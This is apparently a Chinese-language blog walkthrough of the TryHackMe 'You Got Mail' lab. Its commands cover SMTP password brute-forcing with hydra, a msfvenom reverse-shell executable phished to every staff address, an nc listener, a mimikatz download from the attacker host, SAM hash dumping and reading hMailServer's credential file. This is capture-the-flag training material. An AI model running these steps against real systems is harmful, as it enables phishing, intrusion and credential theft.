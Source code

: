 ```yaml
---
title: You Got Mail
subtitle:
date: 2025-03-14T12:27:45+08:00
slug: c247f47
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - TryHackMe
categories:
  - TryHackMe
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

先查看题目给出的网站

![](images/667c671cc1a91a091bfd34d6b4aa338e.png)

在Our Team页面发现一些邮箱，根据题目内容可能和题目有关

![](images/d7e9da3c9f4fc60a659357cf17d03700.png)



```
root㉿T1ngWin vim email.txt

fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```

没什么思路了，先查看一下端口吧
nmap扫描发现只有一些邮件服务和一些Winodws服务开放

``` Shell
root@ip-10-10-154-154:~# nmap -T4 -n -sC -sV -Pn -p- 10.10.84.228
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 18:48 GMT
Stats: 0:01:59 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 52.63% done; ETC: 18:50 (0:00:32 remaining)
Nmap scan report for 10.10.84.228
Host is up (0.00030s latency).
Not shown: 65516 closed ports
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: OK CHILDREN IDLE NAMESPACE IMAP4rev1 RIGHTS=texkA0001 IMAP4 CAPABILITY completed SORT ACL QUOTA
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRICK-MAIL
|   NetBIOS_Domain_Name: BRICK-MAIL
|   NetBIOS_Computer_Name: BRICK-MAIL
|   DNS_Domain_Name: BRICK-MAIL
|   DNS_Computer_Name: BRICK-MAIL
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-13T18:50:40+00:00
| ssl-cert: Subject: commonName=BRICK-MAIL
| Not valid before: 2025-02-12T18:45:16
|_Not valid after:  2025-08-14T18:45:16
|_ssl-date: 2025-02-13T18:50:45+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:ED:BB:0E:C7:39 (Unknown)
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BRICK-MAIL, NetBIOS user: <unknown>, NetBIOS MAC: 02:ed:bb:0e:c7:39 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-02-13T18:50:39
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.61 seconds
```

好像并没有什么用，尝试根据网站创建自定义密码

``` Shell
cewl --lowercase https://brownbrick.co/ > passwords.txt
```

hydra测试邮箱登录密码（nmap扫描得到smtp端口为587）

``` Shell
hydra -L email.txt -P password.txt 10.10.84.228 smtp -s 587 -t 16
```



![](images/c8608fafe5c0b2c4789458a04b763577.png)

获得邮箱账号登录密码，尝试利用反向shell创建可执行文件

``` Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.200.215 LPORT=443 -f exe -o shell.exe
```

使用已经获取账户密码的用户发送可执行文件到其他用户

``` Shell
for email in $(cat email.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.84.228:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done 
```

发送成功

![](images/7b55538990b1f3b03cf57a415715f964.png)

同时监听443端口

``` Shell
nc -lnvp 443
```



![](images/29a41743e330c4d6afae6484bc4984c0.png)

发现此时的权限是wrohit，尝试获取桌面flag

``` Shell
dir C:\Users\wrohit\Desktop
type C:\Users\wrohit\Desktop\flag.txt
```



![](images/6eb99a9624e7d686bb3be955787bcfbc.png)

接下来尝试查找wrohit用户的密码，此时该用户是位于Administrators下的，所以只需要把mimikatz.exe上传即可，上传至ProgramData文件夹内

``` Shell
curl http://10.10.200.215:8888/mimikatz.exe -o mimikatz.exe
```

利用mimikatz获取哈希密码

``` Shell
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```



![](images/1c7a8fbb3cee2b5e8f7c1d8b2db34f4e.png)

在线平台破解哈希即可 https://crackstation.net/

![](images/fcb42c276516424eb3a2f9bdfdb023ee.png)

最后任务是找到hMailServer Administrator Dashboard
该密码存在在在`C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI`
读取文件即可

``` Shell
type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
```



![](images/f9c9c1df8587bd0d2a24ceca819a5c18.png)

破解哈希

![](images/714215a672e9cb9b2449ccddce01fdd8.png)

结束



![](images/9304f15558c8f132b296223569b71418.png)



